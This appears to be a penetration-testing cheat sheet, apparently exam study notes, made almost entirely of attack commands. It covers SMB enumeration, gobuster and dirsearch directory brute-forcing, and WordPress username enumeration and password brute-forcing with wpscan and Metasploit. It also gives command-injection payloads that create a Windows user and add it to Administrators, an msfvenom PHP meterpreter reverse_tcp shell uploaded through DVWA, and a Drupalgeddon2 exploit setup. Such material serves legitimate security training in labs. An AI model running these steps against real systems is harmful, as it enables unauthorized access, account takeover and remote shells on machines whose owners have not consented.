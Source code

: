 

To connect to the SMB share and retrieve files.

smbclient -L (IP or range)

smbclient //target_ip/ -U USER_NAME 
get file.txt  or  get file.txt ~/Desktop/file.txt or more file.txt

```
#  Hacking Web Application
```
1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.

```bash
Directory traversal after dirsearch or gobuster or dirb or dirbuster
dirsearch -u https://example.com
or 
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
or
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search

---
1. Scan the target with Zap to find the vulnerability. Then exploit it. It can be file upload/ File inclusion
vulnerability on DVWA.
2. msfconsole in one tab && next in a new tab
3. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php
4. >use exploit/multi/handler or use 30
5. >set payload php/meterpreter/reverse_tcp
6. Set LHOST <ip>
7. Upload a file you created as exploit.php
8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls
get the files.


msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOST xx.xx.xx.xx
```